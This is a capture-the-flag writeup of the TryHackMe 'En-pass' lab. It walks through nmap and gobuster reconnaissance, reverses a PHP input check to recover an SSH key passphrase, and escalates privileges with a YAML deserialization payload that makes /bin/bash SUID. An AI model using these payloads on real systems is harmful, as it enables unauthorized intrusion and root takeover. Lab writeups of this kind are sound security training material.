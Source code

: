 ```yaml
---
layout: post
title:  "TryHackMe En-pass writeup"
date:   2021-02-15 12:59:36 +0200
categories: writeup tryhackme
---
```


> Think-out-of-the-box

```
nmap -sC -sV -p- 10.10.23.229                                                                                                      255 ⨯
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-11 19:17 EET
Nmap scan report for 10.10.23.229
Host is up (0.054s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.23.229:8001 -x php,txt,html -t 40 dir       1 ⨯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.23.229:8001
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/02/11 19:18:31 Starting gobuster
===============================================================
/web (Status: 301)
/index.html (Status: 200)
/reg.php (Status: 200)
/403.php (Status: 403)
/zip (Status: 301)
/server-status (Status: 403)
===============================================================
2021/02/11 19:38:53 Finished
===============================================================
```

First question path: /web/resources/infoseek/configure/key

there is a RSA private key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3A3DBCAED659E70F7293FA98DB8C1802

V0Z7T9g2JZvMMhiZ6JzYWaWo8hubQhVIu3AcrxJZqFD0o2FW1K0bHGLbK8P+SaAc
...
...
...
iU5caghFrCuuhCagiwYr+qeKM3BwMUBPeUXVWTCVmFkA7jR86XTMfjkD1vgDFj/8
-----END RSA PRIVATE KEY-----
```


reg.php source code reveals:

```php
<?php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){        
          $val = explode(",",$title);
          $sum = 0;
          for($i = 0 ; $i < 9; $i++){
                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {
                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] )             
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }        
          }
          if ( ($sum) == 9 ){ 
              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";
            }
                    else{
                      echo "  Try Try!!";
                    }
          }
          else{
            echo "  Try Again!! ";
          }     
  }
?>
```

deciphering the code: title POST parameter. First may not start with letter or number. Let's make a test code and figure out a string that passes validation.


```php=
<?php

$title = "!!,!,!,!!,!,!!,!,!,!!!,!";

$val = explode(",",$title);

$sum = 0;
 
if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
    for($i = 0 ; $i < 9; $i++){
        if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {
            if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
                $sum = $sum+ (bool)$val[$i]."<br>"; 
        }
        if ( ($sum) == 9 ){ 
                  echo $result;//do not worry you'll get what you need.
                  echo " Congo You Got It !! Nice ";
                }
    }
} else {
    echo "This kills the crab.";
}
?>
```
running this code at https://www.tehplayground.com/DxYds2xwcIFeapPd seems to produce a passing title string. Entering it to the input in reg.php there is a reply:

`Nice. Password : cimihan_are_you_here?`

It's the passphrase for the public key. Now need to figure out the username to login with SSH. 

## Zip files

There are zipfiles in /zip which contain sadman but not the user we seek.

```bash=
for i in {0..100}
do
  wget -q http://10.10.23.229:8001/zip/a$i.zip
  unzip -o -qq a$i.zip
  cat a
  rm a$i.zip a
done

```
a0.zip in a.zip has different md5sum from all other zip files.

```
cmp -l a0.zip a50.zip | gawk '{printf "%08X %02X %02X\n", $1, strtonum(0$2), strtonum(0$3)}'                                         1 ⨯
00000029 FA FE
```

## Privilege escalation

/opt/scripts/file.py:
```python=
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
```

exploit from here: https://hackmd.io/@harrier/uiuctf20


```
- !!python/object/apply:os.system ["chmod +s /bin/bash"]
```


Learned new tool: https://github.com/DominicBreuker/pspy
